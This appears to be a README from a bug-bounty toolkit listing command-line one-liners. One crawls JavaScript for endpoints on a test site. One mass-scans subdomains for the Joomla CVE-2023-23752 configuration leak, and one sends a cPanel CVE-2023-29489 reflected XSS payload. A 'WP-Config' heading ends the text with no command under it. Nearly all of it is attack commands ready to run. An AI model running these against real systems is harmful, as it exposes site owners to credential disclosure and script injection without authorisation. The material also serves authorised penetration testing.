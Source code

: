 

# Find Endpoints in JS

## Installation Requirements
1. Katana    : https://github.com/projectdiscovery/katana
2. Anew      : https://github.com/tomnomnom/anew


## OneLiner
```
katana -u http://testphp.vulnweb.com -js-crawl -d 5 -hl -filed endpoint | anew endpoint.txt
```

────────────────────────────────────────────────────────────────────────

# OneLiner for CVE-2023-23752 - 𝙅𝙤𝙤𝙢𝙡𝙖 𝙄𝙢𝙥𝙧𝙤𝙥𝙚𝙧 𝘼𝙘𝙘𝙚𝙨𝙨 𝙘𝙝𝙚𝙘𝙠 𝙞𝙣 𝙒𝙚𝙗𝙨𝙚𝙧𝙫𝙞𝙘𝙚 𝙀𝙣𝙙𝙥𝙤𝙞𝙣𝙩

## Installation Requirements
1. Subfinder  : https://github.com/projectdiscovery/subfinder
2. HTTPX      : https://github.com/projectdiscovery/httpx

## OneLiner
```
subfinder -d http://TARGET.COM -silent -all | httpx -silent -path 'api/index.php/v1/config/application?public=true' -mc 200
```

────────────────────────────────────────────────────────────────────────

# cPanel CVE-2023-29489 XSS One-Liner

## Installation Requirements
1. Subfinder  : https://github.com/projectdiscovery/subfinder
2. HTTPX      : https://github.com/projectdiscovery/httpx

## OneLiner
```
subfinder -d http://example.com -silent -all | httpx -silent -ports http:80,https:443,2082,2083 -path '/cpanelwebcall/<img%20src=x%20onerror="prompt(document.domain)">aaaaaaaaaaaaaaa' -mc 400
```

────────────────────────────────────────────────────────────────────────

# WP-Config Oneliner

